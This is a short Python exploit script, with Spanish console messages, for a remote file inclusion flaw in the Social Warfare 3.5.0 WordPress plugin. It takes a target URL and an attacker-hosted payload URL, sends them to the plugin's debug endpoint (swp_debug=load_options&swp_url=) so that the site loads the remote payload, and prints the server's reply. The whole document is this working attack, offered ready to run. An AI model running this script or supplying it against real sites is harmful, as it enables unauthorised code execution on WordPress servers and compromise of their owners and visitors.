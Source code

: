 #!/usr/bin/env python3
import requests
import sys

print("\n[+] Social Warfare 3.5.0 - RFI Exploit\n")

if len(sys.argv) != 5:
    print("Uso: python3 exploit.py -t <target_url> --payload-uri <http://attacker/payload.txt>")
    sys.exit(1)

target = sys.argv[2] + "/wp-admin/admin-post.php?swp_debug=load_options&swp_url="
payload = sys.argv[4]

print("[>] Enviando Payload a:", target + payload)

try:
    r = requests.get(target + payload, timeout=10)
    print("[*] Respuesta del servidor:\n")
    print(r.text)
except Exception as e:
    print("Error:", e)
